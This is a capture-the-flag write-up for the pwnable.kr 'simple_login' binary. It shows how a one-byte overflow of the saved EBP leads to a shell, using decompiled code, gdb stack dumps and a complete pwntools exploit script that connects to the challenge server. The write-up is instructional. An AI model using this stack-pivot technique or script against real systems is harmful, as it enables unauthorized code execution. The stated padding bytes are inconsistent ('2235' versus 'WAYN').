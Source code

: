 
pwnable.kr - simple_login solution with only one byte overflow 


I only saw writeups using the full four bytes overflow to fully
control EBP. In this writeup I'll show you how to get RCE with 
a single byte overflow.
The idea is that we have an 8 byte buffer followed by *EBP in 
which we are able to write up to 12 bytes. Hence we can get
control of EBP. But, just overflowing the LSB of *EBP is enough 
for RCE.

main()
```c
  printf("Authenticate : ");
  __isoc99_scanf(&DAT_080da6b5,local_32);
  memset(input,0,0xc);
  local_38 = (void *)0x0;
  DECODED_LENGTH = Base64Decode(local_32,&local_38);  // 1
  if (DECODED_LENGTH < 13) {                          // 2
    memcpy(input,local_38,DECODED_LENGTH);
    iVar1 = auth(DECODED_LENGTH);                     // 3
    if (iVar1 == 1) {
      correct();
     
      
```


User input is base64 decoded [1]. The length is checked to be < 13 [2].
If length is < 13, we call auth()


```c
bool auth(size_t param_1)
{
  int iVar1;
  undefined local_18 [8];
  char *local_10;
  undefined auStack12 [8];
  
  memcpy(auStack12,input,param_1);            // 1
  local_10 = (char *)calc_md5(local_18,0xc);
  printf("hash : %s\n",local_10);
  iVar1 = strcmp("f87cd601aa7fedca99018a8be88eda34",local_10);
  return iVar1 == 0;
}
```


Here we clearly have an overflow. The buffer is only 8 bytes in size
and we can write up to 12 bytes into it [1]. Looking at this in gdb
shows, that the auStack12 var is followed by *EBP. Hence this allows
us to get control over EBP which let's us modify the control flow.


```bash 
(gdb) disassemble 
Dump of assembler code for function auth:
    <snip>
 => 0x080492ba <+30>:	call   0x8069660 <memcpy>
(gdb) x/wx $ebp
0xffffce38:	0xffffce88      // 1
```


Before the memcpy *EBP is 0xffffce88 [1], make a mental note of 
that value. 
Our stack looks like this.

```bash
(gdb) x/20wx $esp
0xffffce10:	0xffffce30	0x0811eb40	0x00000009	0x08120aa8
0xffffce20:	0x08120aa8	0x081209e8	0x00000009	0x00000009
0xffffce30:	0x080481d0	0x00000000	0xffffce88	0x08049407      // here we have our 0xffffce88
0xffffce40:	0x00000009	0x081209b8	0x00000009	0x00000000
0xffffce50:	0x00000001	0xffffcf14	0x081209b8	0x37370001
```


Setting the next breakpoint just after the memcpy and looking
at the stack and EBP again.

```bash
(gdb) x/wx $ebp
0xffffce38:	0xffffce2c      // see how this value changed?
(gdb) x/20wx $esp
0xffffce10:	0xffffce30	0x0811eb40	0x00000009	0x08120aa8
0xffffce20:	0x08120aa8	0x081209e8	0x00000009	0x00000009
0xffffce30:	0xdeadbeef	0x35333232	0xffffce2c	0x08049407      // here you can see the overflow happen
0xffffce40:	0x00000009	0x081209b8	0x00000009	0x00000000
0xffffce50:	0x00000001	0xffffcf14	0x081209b8	0x37370001
```


As you might have observed, we wrote our user input starting
at address 0xffffce30 and overflowed into the LSB of *EBP.
The user input was base64(p32(0xdeadbeef) + "2235\x2c".
And the "\x2c" was the value which overwrote the LSB of *EBP.
After we now leave the auth() function and get into main() again,
the stack around EBP looks like this:

```bash
Breakpoint 2, 0x08049407 in main ()
(gdb) x/20wx $ebp
0xffffce2c:	0x081209e8	0xdeadbeef	0x35333232	0xffffce2c
<snip>
```


Now if the leave instruction is executed at the end of the main() function
ESP points at our 0xdeadbeef value:
```bash
(gdb) disassemble 
Dump of assembler code for function main:
   <snip>
   0x08049424 <+279>:	leave  
=> 0x08049425 <+280>:	ret    
(gdb) x/2wx $esp
0xffffce30:	0xdeadbeef	0x35333232
```


And a single step now wants to hand code execution to 0xdeadbeef:
```bash
(gdb) si
0xdeadbeef in ?? ()
```


To get a shell we can simply jump into the middle of the correct
function:
```c
void correct(void)
{
  if (input._0_4_ == -559038737) {
    puts("Congratulation! you are good!");
    system("/bin/sh");        // we want to jmp here
  }
  exit(0);
}
// disassembly
08049276 75 18           JNZ        LAB_08049290
08049278 c7 04 24        MOV        dword ptr [ESP]=>local_2c,s_Congratulation!_yo   = "Congratulation! you are good!" // Here we will jmp to
                 51 a6 0d 08
0804927f e8 4c 30        CALL       puts                                             int puts(char * __s)
                 01 00
08049284 c7 04 24        MOV        dword ptr [ESP]=>local_2c,s_/bin/sh_080da66f     = "/bin/sh"      
                 6f a6 0d 08
0804928b e8 20 20        CALL       system                                           int system(char * __command)
                 01 00
```
Therefore using the input base64(p32(0x08049278 + "WAYN" + "\x2c")) gives you a shell.

The following shows the whole exploit:

```python
our_input = p32(0x8049278) + b"2235\x2c"
authcode = b64encode(our_input)

while 1:
    #p = process("./login")
    p = remote("pwnable.kr", 9003)
    p.sendlineafter("Authenticate :", authcode)
    data = p.recvuntil(b"\n")
    try:
        data = p.recvuntil(b"\n")
        print(data)
        if b"Congratulation! you are good!" in data:
            p.interactive()
            break
        else:
            continue
    except:
        continue

```
